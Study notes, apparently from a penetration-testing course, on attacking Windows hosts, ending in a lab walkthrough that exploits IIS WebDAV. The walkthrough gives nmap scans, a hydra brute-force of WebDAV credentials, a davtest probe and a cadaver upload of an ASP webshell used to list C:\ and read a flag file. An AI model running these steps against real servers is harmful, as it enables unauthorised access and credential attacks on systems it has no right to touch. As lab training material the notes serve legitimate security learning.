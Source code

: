 # Host Based Attacks

- Targeted against a specific host/system

## Overview over Windows vulnerabilities

**Types of windows vulnerabilities (not complete)**

- Information Disclosure
- buffer overflows
- Remote code execution
- privilege escalation
- Denial of Service

**Frequently Exploited Windows services**

- **|** Microsoft IIS **|** TCP Ports 80/443 **|** Proprietary web server **|**
- **|** WebDav(Web Distributed Authoring & versioning) **|** TCP Ports 80/443 **|** HTTP extention that Allows client to update, delete , move and copy files on a web server. WebDAV is used to enable a web server to act as a file server. **|**
- **|** SMB/CIFS(Server Message Block Protocol) **|** TCP port 445 **|** Network file share on a LAN **|**
- **|** RDP **|** TCP port 3389 **|** Remotely authenticate and interact with a Windows system **|**
- WinRM(Windows Remote Management Protocol) **|** TCP ports 5986/443 **|** Windows remote management protocol that can be used to facilitate remote access with windows systems. **|**

### Exploiting Microsoft IIS WebDAV

Configured to run on ports 80/443

- Supported executable file extentions: .asp, .aspx, .config, .php
- edits and manage files
- connect through credentials
  _Tools_

  - davtest - used to scan, authenticate and exploit a WebDAV server
  - cadaver - cadaver supports file upload, download, on-screen display etc

  _Exploitation process_

  - Identify whether WebDav has been configured to run on the IIS web server
  - brute-force attact on order to identify legitamate credentials we can use for authentication

  * authenticate then upload a malicious .asp payload that can be used to execute arbitary commands or optain a reverse shell on the target

  _Step-by step_

  1. Do nmap scan: `nmap -sV -sC 10.10.x.x`
  2. after identifying IIS Web DAV: `nmap -sV -p 80 --script= http-enum 10.10.x.x`
  3. go to browser `10.10.x.x/webdev` , here you can authenticate once you have credentials
  4. Hydra to brute force: `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_paswords.txt 10.10.x.x http-get /webdav/`, example wordlist(that might work)
  5. log in
  6. use davtest: `davtest -auth username:password -url http://10.10.x.x/webdav `, will whow you what files can be uploded and files that can be executed, the last is important and shows us an attack vector
  7. use cadaver to upload file: `cadaver http://10.10.x.x/webdav`, then authenticate.
  8. upload a webshell(asp) through cadaver when connected: `put /usr/share/webshells/asp/webshell.asp`.
  9. Go to browser again to see if it has been uploaded and click on the .asp file, then run commands on the page: to look at C:\ drive type `dir C:\` , to see file(flag.txt), type `type C:\flag.txt`

